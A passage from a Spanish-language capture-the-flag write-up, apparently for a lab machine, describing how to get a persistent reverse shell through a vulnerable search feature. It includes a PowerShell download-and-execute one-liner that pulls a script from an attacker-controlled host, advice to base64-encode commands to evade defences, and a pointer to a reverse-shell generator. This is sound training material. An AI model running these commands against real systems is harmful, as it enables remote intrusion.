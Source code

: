 vamos a fabricar un payload que se descargue desde la maquina remota y se ejecute para que se nos envie una reverse shell. 

por que no ejecutar la reverse directamente desde el comprobador? porque ejecuta un comando solo por un instante, lo cual si nos consigue la shell, se caerá de inmediato, por lo que debemos mantenerla como un proceso de fondo en el sistema remoto.

para ello usaremos un comando de powershell que almacenaremos en un archivo en nuestro servidor y le daremos la orden de descarga y ejecución desde el buscador vulnerable:

para descargar y ejecutar al mismo tiempo (que sera el comando que ejecutaremos en el buscador vulnerable) vemos el siguiente recurso:
https://github.com/samratashok/nishang/blob/master/Execution/Download-Execute-PS.ps1

usaremos este comando en base64 por si hay alguna defensa activa (aunque en entornos totalmente reales, estos scripts son reconocidos fácilmente por el defender)
primero: vamos a guardar en un archivo el comando:
```powershell
Invoke-Expression ((New-Object Net.WebClient).DownloadString("http://10.10.10.10/script.ps1"))
```
vamos a ir a revshell.com y vamos a crear una reverseshell ejecutable en powershell en base64:
<img src="/images/writeup-blazorized/30.png">
